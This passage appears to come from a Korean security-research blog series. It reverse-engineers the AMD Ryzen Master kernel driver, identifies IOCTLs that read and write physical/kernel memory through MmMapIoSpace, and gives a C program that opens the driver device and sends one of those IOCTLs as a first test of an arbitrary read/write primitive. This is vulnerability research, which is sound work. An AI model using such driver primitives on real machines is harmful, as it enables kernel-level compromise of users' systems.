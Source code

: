 위 함수는 비슷해 보이긴 하지만 한 가지가 다르네요?  `sub_140007278` 함수와 반대로 커널 메모리를 바이트 단위로 쓰는 루틴인 것 같습니다.

![windows-driver-part2/Untitled%2012.png](windows-driver-part2/Untitled%2012.png)

IOCTL `0x81112F08`일 때 해당 함수 루틴을 수행합니다.

 

위 두 함수의 `MmMapIoSpace` 로 전달되는 매개변수와 복사할 메모리 주소를 제어할 수 있으면 임의 쓰기 및 임의 읽기가 가능할 것 같다는 느낌적인 느낌이 오지 않나요?! 바로 테스트를 해볼게요.

```c
#include <Windows.h>
#include <stdio.h>

int main(void)
{
    HANDLE dHandle;
    WCHAR DeviceLink[] = L"\\\\.\\AMDRyzenMasterDriverV15";
    DWORD dwRet = 0;
    LPVOID output_buff = VirtualAlloc(NULL,
        0x100c,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE);

    dHandle = CreateFileW(
        DeviceLink,
        GENERIC_READ | GENERIC_WRITE,
        0,
        NULL,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        NULL
    );

    if (dHandle == INVALID_HANDLE_VALUE)
    {
        printf("Get Device Handle Fail! : 0x%X \n", GetLastError());
        return 1;
    }
    
    BYTE input_buff[0x100] = { 0, };
    if (!DeviceIoControl(dHandle, 0x81112F0C, input_buff, 0x40, output_buff, 0x100c, &dwRet, 0))
    {
        printf("DeviceIOControl Fail : 0x%X \n", GetLastError());
        CloseHandle(dHandle);
        return 1;
    }

    CloseHandle(dHandle);

    return 0;
}
```
